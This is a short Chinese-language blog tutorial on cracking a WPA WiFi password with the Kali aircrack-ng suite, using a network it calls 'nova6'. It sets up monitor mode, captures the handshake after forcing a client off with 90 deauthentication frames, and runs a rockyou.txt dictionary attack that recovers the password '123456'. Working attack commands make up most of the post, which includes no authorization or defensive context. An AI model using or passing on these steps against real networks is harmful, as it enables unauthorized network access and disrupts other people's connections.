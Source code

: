 title: WIFI暴力破解
author: John Jue
date: 2023-12-10 20:25:47
tags:
---
<b>最重要的，得先有一张无线网卡</b>

![upload successful](./images/pasted-778.png)
可以看到这张网卡名字为wlan0

首先解压kali自带的爆破字典`/usr/share/wordlist/`

![upload successful](./images/pasted-777.png)

先开启监听`airmon-ng start wlan0`

![upload successful](./images/pasted-779.png)

开始扫描wifi，`airodump-ng wlan0`

![upload successful](./images/pasted-780.png)
<li>BSSID：路由器的MAC地址
<li>PWR：信号值，绝对值越低，说明信号越强
<li>CH：当前路由器使用的信道
  
然后找到自己要爆破的wifi，这里选择 nova6

开始监听该wifi：

`airodump-ng --bssid 5A:2D:6C:3A:76:16 -c 8 -w nova6 wlan0
`

--bssid 后输入wifi的bssid

![upload successful](./images/pasted-783.png)
-c 后输入wifi 的信道值ch

![upload successful](./images/pasted-782.png)
确认有无设备连接，另开一个终端，然后进行断网抓取握手包
`aireplay-ng -0 90 -a  5A:2D:6C:3A:76:16 -c 14:AC:60:B4:48:87 wlan0`
-0：制定攻击次数。

-a：路由器的bssid值

-c：目标mac地址

![upload successful](./images/pasted-784.png)
这里就成功抓到握手包了
进行爆破
`aircrack-ng -a2 -b 5A:2D:6C:3A:76:16 -w rockyou.txt nova6-02.cap`

![upload successful](./images/pasted-785.png)
爆破成功，密码为123456



